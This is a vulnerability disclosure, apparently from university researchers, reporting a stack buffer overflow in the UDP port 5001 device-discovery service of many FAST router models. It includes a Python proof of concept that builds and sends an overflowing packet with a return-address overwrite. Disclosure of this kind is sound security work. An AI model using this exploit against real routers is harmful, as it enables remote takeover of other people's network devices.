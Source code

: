 # FAST Router Vulnerability Report

FAST router have a stack overflow issue in `devDiscoverHandle` server.

Any user can get remote code execution through LAN, this vulnerability currently affects latest FWB, FIAP, FAC, FCAP series, including FWB201S, FWB505, FIAP300P, FIAP303P, FAC1203R, FIAP300L, FAC1200R, FIAP301D, FIAP301P, FAC1900R, FCAP1200GP, FWB200, FWB201, FIAP300D, etc. It affects the linux system and vxworks system. we believe there are much more models suffered from this vuln.

## Vulnerability Description

This vulnerability happen when devDiscoverHandle receive data by using `recvfrom` from `udp port 5001`.Then enter the `protocol_handler`->`parse_advertisement_frame`->`copy_msg_element`.In the function of `copy_msg_element` we can control `a1` and `a3` that It lead to a stack buffer overflow to execute arbitrary code.


![1](devDiscoverHandle/1.png)
![2](devDiscoverHandle/2.png)
![3](devDiscoverHandle/3.png)
![4](devDiscoverHandle/4.png)



## PoC

```python
import sys
import struct
import requests
from pwn import *
from time import sleep


udp_data_addr = 0x0419680

def fix_checksum(data):
    checksum = 0
    for off in range(0, len(data), 2):
        checksum += u16(data[off:off+2])
    checksum &= 0xffffffff
    while True:
        if (checksum >> 0x10) == 0:
            break
        checksum = (checksum & 0xffff) + (checksum >> 0x10)
    checksum &= 0xffff
    return p16(0xffff - checksum)

context.endian='little'

magic = b'\x01\x02\x0e\x00\xe1\x2b\x83\xc7'

gadget1 = p32(udp_data_addr + 0x300)
pad2 = b'poc'.ljust(750-0x10, b'\x00') + gadget1

context.endian='big'
tmp = b'\x00\x05' + p16(len(pad2)) + pad2

checksum = fix_checksum(magic + p16(len(tmp)) + tmp)
payload2 = magic + checksum + p16(len(tmp)) + b'\x00\x00' + tmp

assert(len(payload2) < 0x300)

print('')
print("[*] Sending payload2")
udp=socket.socket(socket.AF_INET,socket.SOCK_DGRAM)
udp.sendto(payload2,('192.168.3.28',5001))
udp.close()
sleep(1)
print("[+] Success")

```

## Acknowledgment

Credit to [@G6](https://github.com/GANGE666), [@Yu3H0](https://github.com/Yu3H0/), [@peanuts](https://github.com/peanuts62) from Shanghai Jiao Tong University.